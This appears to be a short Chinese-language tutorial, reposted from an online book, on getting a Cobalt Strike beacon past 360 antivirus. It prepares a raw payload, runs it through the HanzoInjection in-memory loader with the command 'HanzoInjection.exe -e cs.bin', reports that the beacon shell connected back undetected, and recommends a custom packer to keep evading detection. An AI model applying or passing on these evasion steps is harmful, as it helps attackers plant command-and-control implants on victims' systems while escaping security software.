


# Cobalt Strike beacon 免杀上线 [ hanzoInjection ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/29.html](http://book.iwonder.run/Tools/Cobalt Strike/29.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 第一步,由于 hanzoInjection [ 也可以粗暴的把它理解为加载器 ] 是直接在内存中来注入执行 payload,首先,我们需要先准备好一个二进制数据格式的 payload,即"raw",如下



> 第二步,将 HanzoInjection.exe 和 cs.bin 同时丢到目标机器上执行

```
# HanzoInjection.exe -e cs.bin 
```


> 稍等片刻,发现 beacon shell 被正常弹回,如下


> 360 此时仍然是无视的,可能过不太久 HanzoInjection.exe 肯定会被杀,这都再正常不过,不过加个自己的壳应该又能继续坚持用一段时间,此处多说一句,除了那种带签名的 payload,所有的免杀都只是暂时的,绝无一劳永逸的说法



